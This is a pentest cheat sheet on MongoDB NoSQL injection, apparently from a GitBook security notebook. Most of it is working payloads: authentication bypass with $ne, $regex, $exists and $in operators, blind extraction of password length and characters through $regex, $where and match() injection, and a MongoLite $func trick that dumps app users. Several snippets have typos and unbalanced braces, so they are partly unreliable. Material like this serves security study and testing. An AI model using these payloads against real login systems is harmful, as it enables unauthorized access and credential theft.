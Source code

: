 ```yaml
---
description: >-
  MongoDB Injection are mainly caused by insufficient type validation of user
  input data.
---
```


# MongoDB

{% embed url="https://www.mongodb.com/docs/manual/reference/operator/query/" %}

## # Authentication Bypass

```mongodb
db.user.find({"uid": req.body.uid, "upw": req.body.upw })
```

### Payload

```mongodb
# uid=admin&upw[$ne]="" 
db.user.find({"uid": 'admin',"upw": {"$ne":""} })

# uid[$regex]=a.*&upw[$ne]=""
db.user.find({"uid": {"$regex": "a.*"},"upw": {"$ne":""} })

# uid[$regex]=.*&upw[$regex]=.*
db.user.find({"uid": {"$regex": ".*"},"upw": {"$regex": ".*"} })

# uid[$exists]=true&upw[$exists]=true
db.user.find({"uid": {"$exists": true},"upw": {"$exists": true} })
```

### Comment

```mongodb
NySQL : ' or 1=1#
Mongo : ' || 1==1//
      : ' || 1==1%00
```

## # Blind NoSQL Injection

### Length Extraction

```mongodb
# uid=admin&upw[$regex]=.{1}
db.user.find({"uid": "admin"},"upw": {"$regex": ".{1}"}})

# uid=admin&upw[$regex]=.{2}
db.user.find({"uid": "admin"},"upw": {"$regex": ".{2}"}})

# uid=admin&upw[$regex]=.{3}
db.user.find({"uid": "admin"},"upw": {"$regex": ".{3}"}})

...

# uid=admin&upw[$regex]=.{8}
db.user.find({"uid": "admin"},"upw": {"$regex": ".{8}"}})
# uid=admin&upw[$regex]=.{9}
db.user.find({"uid": "admin"},"upw": {"$regex": ".{9}"}})
```

### Data Extraction

```mongodb
# $regex
db.user.find({"upw": {$regex: "^a"}}) # False
db.user.find({"upw": {$regex: "^b"}}) # False
db.user.find({"upw": {$regex: "^c"}}) # False
...
db.user.find({"upw": {$regex: "^f"}}) # False
db.user.find({"upw": {$regex: "^g"}}) # True

db.user.find({"upw": {$regex: "^ga"}}) # False
db.user.find({"upw": {$regex: "^gb"}}) # False
db.user.find({"upw": {$regex: "^gc"}}) # False
db.user.find({"upw": {$regex: "^gd"}}) # False

...
db.user.find({"upw": {$regex: "^guest$"}}) # True

# $where
db.user.find({$where: "this.upw.substring(0,1)=='a'"}) # False
db.user.find({$where: "this.upw.substring(0,1)=='b'"}) # False
db.user.find({$where: "this.upw.substring(0,1)=='c'"}) # False
...
db.user.find({$where: "this.upw.substring(0,1)=='f'"}) # False
db.user.find({$where: "this.upw.substring(0,1)=='g'"}) # True

db.user.find({$where: "this.upw.substring(1,1)=='a'"}) # False
db.user.find({$where: "this.upw.substring(1,1)=='b'"}) # False
db.user.find({$where: "this.upw.substring(1,1)=='c'"}) # False
db.user.find({$where: "this.upw.substring(1,1)=='d'"}) # False

...

# $in
# uid[$in]=Admin&uid[$in]=4dm1n&uid[$in]=admin&uid[$in]=root&upw[$ne]=""
db.user.find({"uid":{"$in":["Admin,"4dm1n","admin","root"]},"upw":{"$ne":""}})

# match
/?uid=admin' && this.password%00  // check if the field password exists
/?uid=admin' && this.password && this.password.match(/^a.*$/)%00
/?uid=admin' && this.password && this.password.match(/^b.*$/)%00
/?uid=admin' && this.password && this.password.match(/^c.*$/)%00
...
/?uid=admin' && this.password && this.password.match(/^adm.*$/)%00
...
/?uid=admin' && this.password && this.password.match(/^admin$/)%00
```



## # $func operator&#x20;

The $func operator of MongoLite Library might execute arbitrary function. By passing the PHP function `var_dump` in $func operator, we can get the names of all app users.   &#x20;

```mongodb
"user":{"$func": "var_dump"}
```

{% embed url="https://swarm.ptsecurity.com/rce-cockpit-cms/" %}

<figure><img src=".gitbook/assets/cockpit_auth_check_10.png" alt=""><figcaption></figcaption></figure>

## References

{% embed url="https://dreamhack.io/lecture/courses/29" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}
